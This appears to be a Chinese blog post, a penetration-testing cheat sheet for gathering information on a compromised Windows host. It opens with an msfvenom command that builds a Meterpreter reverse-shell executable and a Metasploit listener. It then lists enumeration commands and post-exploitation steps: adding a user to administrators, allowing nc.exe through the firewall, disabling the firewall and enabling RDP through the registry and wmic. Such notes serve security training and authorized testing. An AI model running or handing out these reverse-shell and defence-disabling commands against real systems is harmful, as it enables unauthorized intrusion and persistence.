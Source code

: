 ```yaml
---
layout: post
title: Windows 主机信息搜集
subtitle: Windows 主机信息搜集
date: 2025-07-24 16:37
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 内网防护
published: false
---
```

## 1. 前置条件

**反弹 shell**

Kali:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
exploit
```

## 2. 系统信息搜集

```batch
# 解决乱码
chcp 437 # change english
chcp 65001 # UTF-8 编码
chap 936 # GB2312 编码

# 查询操作系统版本
# /B 匹配行的开头
# /C 区分大小写
systeminfo | findstr /B /C:"OS"
# 主机名
hostname
whoami
echo %username%
query user
# 处理器架构
echo %PROCESSOR_ARCHITECTURE%
# 获取开机时间
net statistics workstation 

net user <user> # 查看指定用户权限
net user <user> /active:yes

net localgroup
net localgroup administrators <user> /add
# 进程
tasklist
wmic service|process [where state='Running'] list brief|full
wmic product get name,version

schtasks /query /fo LIST /V # 查看计划任务
```

**cmd 执行 powershell 命令**

```batch
powershell.exe -command "get-process"
```

## 3. 网络信息搜集

```batch
ipconfig /all
# 当前网络连接
# a: 显示所有连接和监听的端口
# n: 以数字格式显示地址和端口
# o: 显示与每个连接关联的进程 PID
netstat -ano
# 本机共享列表
net share
# 以简洁的方式列出共享的信息
wmic share list brief
#自定义显示字段
wmic share get Description,name,path,status
net use
net session
# arp缓存表
arp -a
# 路由表
route print
netstat -r
```

## 4. 安全信息搜集

```batch
# 查看启动程序信息
wmic startup get command,caption
# 查看计划任务
schtasks /query /fo LIST /V
# 查看补丁列表
systeminfo
```

### 4.1. 防火墙

#### 4.1.1. 查看防火墙配置

```batch
netsh firewall show config
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```

#### 4.1.2. 修改防火墙配置

Windows server 2003 及之前版本

```batch
# 允许指定程序通过
netsh firewall all allowprogram c:\nc.exe "allow nc" enable
# 关闭防火墙
netsh firewall set opmod disable
```

Windows server 2003 之后版本

```batch
# 允许指定程序
# dir: in|out
netsh advfirewall firewall add rule name="allow nc" dir=in action=allow program="c:\nc.exe"
# 允许指定端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall firewall set allprofiles state off
```

### 4.2. 远程桌面

```batch
# 开启远程桌面服务
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 开启3389端口
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
# or
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

**windows server 2003开启 3389 端口**

```batch
wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
```

**在 Windows server 2008 和 Windows server 2012 中开启 3389 端口**

```batch
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
# 
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1
# 
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
```

#### 4.2.1. 远程桌面端口设置

查询 Windows 注册表中与远程桌面服务（RDP）相关的端口设置，特别是 RDP 使用的端口号。

```batch
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber
```

![image.png](https://img.ghostliner.top/qAP2U2.png)

修改远程桌面端口

```batch
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber /T REG_DWORD /D 3389 /F 
```

### 4.3. 自动脚本

WMIC（Windows management instrumentation command-line，windows 管理工具命令行）是最有用的 Windows 命令行工具。在默认情况下，任何版本的 Windows XP 的低权限用户不能访问 WMIC， Windows 7 以上版本的低权限用户允许访问 WMIC 并执行相关查询操作

WMIC 脚本的下载地址：[Coding: wmic_info.bat](https://fuzzysecurity.com/scripts/13.html)

执行该脚本后，会将所有结果写入一个 HTML 文件

#### 4.3.1. Wmic 命令

```batch
wmic service [where state='Running'] list brief|full
wmic product get name,version
wmic startup get command,caption # 查看系统启动信息
wmic qfe list brief # 列出所有安装的补丁
```

#### 4.3.2. Netsh 命令

```batch
netsh firewall show config # 查看防火墙配置
netsh advfirewall firewall show rule name=all dir=in | find <rulename>
netsh advfirewall firewall show rule name=<rulename>
```
